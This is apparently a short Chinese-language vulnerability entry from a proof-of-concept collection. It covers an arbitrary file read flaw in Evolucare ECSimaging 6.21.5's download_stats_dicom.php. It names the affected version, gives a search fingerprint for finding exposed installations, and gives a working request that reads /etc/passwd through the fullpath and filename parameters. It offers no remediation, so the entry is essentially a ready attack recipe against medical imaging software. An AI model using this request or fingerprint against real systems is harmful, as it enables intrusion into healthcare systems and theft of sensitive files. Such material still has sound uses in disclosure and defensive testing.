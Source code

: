 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 6.21.5
```

## 网络测绘

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](images/202205241445840.png)

验证POC

```
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![](images/202205241445607.png)